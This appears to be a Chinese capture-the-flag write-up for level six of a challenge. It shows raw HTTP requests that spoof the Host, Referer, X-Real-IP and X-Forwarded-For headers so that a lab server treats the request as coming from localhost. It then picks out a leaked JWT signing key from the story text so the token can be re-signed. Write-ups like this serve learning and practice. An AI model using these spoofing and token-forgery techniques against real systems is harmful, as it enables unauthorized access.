 ## 第六关

本题提示内容指出了 `localhost`，意在表明需要让服务器认为这是一个来自本地的请求。可以通过设置 `Host` `X-Real-IP` `X-Forwarded-For` `Referer` 等标头欺骗服务器。

以下任意一种请求都是可以的。

::: code-group

```HTTP [Referer]
GET /?ask=miao HTTP/1.1
Host: localhost
Referer: http://localhost
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsZXZlbCI6Nn0.SlKAeN5yYDF9YaHrUMifhYSrilyjPwd2_Yrywq9ff1Y
```

```HTTP [X-Real-IP]
GET /?ask=miao HTTP/1.1
Host: 8.147.132.32:36002
X-Real-IP: 127.0.0.1
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsZXZlbCI6Nn0.SlKAeN5yYDF9YaHrUMifhYSrilyjPwd2_Yrywq9ff1Y
```

```HTTP [X-Forwarded-For]
GET /?ask=miao HTTP/1.1
Host: 8.147.132.32:36002
X-Forwarded-For: 127.0.0.1
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsZXZlbCI6Nn0.SlKAeN5yYDF9YaHrUMifhYSrilyjPwd2_Yrywq9ff1Y
```

:::

:::warning 注意
如果修改 `Host`，你需要确保你的 HTTP 报文是发向靶机的。一些工具会默认自动采用 `Host` 作为远程地址，或者没有自定义远程地址的功能。
:::

随后提示给出了一段话：

<blockquote style="text-align: center;">

PangBai 以一种难以形容的表情望着你——激动的、怀念的，却带着些不安与惊恐，像落单后归家的雏鸟，又宛若雷暴中遇难的船员。

你似乎无法抵御这种感觉的萦绕，像是一瞬间被推入到无法言喻的深渊。尽管你尽力摆脱，但即便今后夜间偶见酣眠，这一瞬间塑成的梦魇也成为了美梦的常客。

「像■■■■验体■■不可能■■■■ JWT 这种■■ Pe2K7kxo8NMIkaeN ■■■密钥，除非■■■■■走，难道■■■■■■吗？！」

「......」

</blockquote>

其中提到了 JWT 和 `Pe2K7kxo8NMIkaeN`，这个数字和字母组成内容推测应当是 JWT 的密钥。JWT 是一个轻量级的认证规范，允许在用户和服务器之间传递安全可靠的信息，但这是基于签名密钥没有泄露的情况下。可以通过 [JWT.IO](https://jwt.io) 网站进行在线签名和验证（JWT 并不对数据进行加密，而仅仅是签名，不同的数据对应的羡签名不一样，因此在没有密钥的情况下，你可以查看里面的数据，但修改它则会导致服务器验签失败，从而拒绝你的进一步请求）。

将我们当前的 Cookie 粘贴入网站：
